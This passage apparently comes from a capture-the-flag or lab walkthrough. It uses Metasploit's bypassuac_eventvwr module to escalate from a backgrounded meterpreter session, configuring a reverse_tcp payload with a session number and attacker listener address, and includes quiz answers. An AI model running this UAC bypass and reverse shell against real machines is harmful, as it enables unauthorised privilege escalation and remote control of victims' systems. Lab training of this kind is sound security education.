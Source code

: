   `meterpreter > background`
  
`Background session 1? [y/N]  y`

`use exploit/windows/local/bypassuac_eventvwr`
  
  #### Local exploits require a session to be selected (something we can verify with the command `show options`), set this now using the command `set session SESSION_NUMBER`.
  
  `msf5 exploit(windows/local/bypassuac_eventvwr) > show options`

> Module options (exploit/windows/local/bypassuac_eventvwr):
> 
>    Name     Current Setting  Required  Description
> 
>    ----     ---------------  --------  -----------
> 
>    SESSION                   yes       The session to run this module on.
> 
> Payload options (windows/meterpreter/reverse_tcp):
> 
>    Name      Current Setting  Required  Description
> 
>    ----      ---------------  --------  -----------
> 
>    EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
> 
>    LHOST     10.10.203.123    yes       The listen address (an interface may be specified)
> 
>    LPORT     4444             yes       The listen port
> 
> Exploit target:
> 
>    Id  Name
> 
>    --  ----
> 
>    0   Windows x86

`SET SESSION 1`
  
#### Now that we've set our session number, further options will be revealed in the options menu. We'll have to set one more as our listener IP isn't correct. What is the name of this option ?

    `msf5 exploit(windows/local/bypassuac_eventvwr) > show options`
  
  => LHOST

  #### Set this option now.
  
  `msf5 exploit(windows/local/bypassuac_eventvwr) > set LHOST REPLACE_WITH_ATTACK_BOX_IP`
  
